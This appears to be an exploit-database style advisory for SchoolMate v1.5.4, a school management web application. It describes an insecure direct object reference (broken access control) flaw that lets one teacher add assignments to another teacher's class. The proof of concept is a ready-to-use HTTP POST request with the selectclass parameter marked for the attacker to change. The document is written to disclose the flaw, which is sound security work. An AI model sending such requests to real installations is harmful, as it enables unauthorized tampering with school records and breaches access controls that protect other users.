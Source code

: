 # Exploit Title: SchoolMate v1.5.4 - Insecure Direct Object Reference(IDOR)
## Date: 4/1/2024
## Vendor Homepage: https://sourceforge.net/projects/schoolmate/files/latest/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: SchoolMate
## Version: v1.5.4
## Exploit Description:
## SchoolMate v1.5.4 suffers from IDOR - Broken Access Control Vulnerability allowing attacker teacher to add assignment in class that is assigned by other teacher (horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /index.php HTTP/1.1
...

title=assignment11&task=a111&total=50&assigneddate=1%2F1%2F2024&duedate=1%2F7%2F2023&addassignment=1&page2=2&logout=&selectclass=2(CHANGE HERE)&page=2
```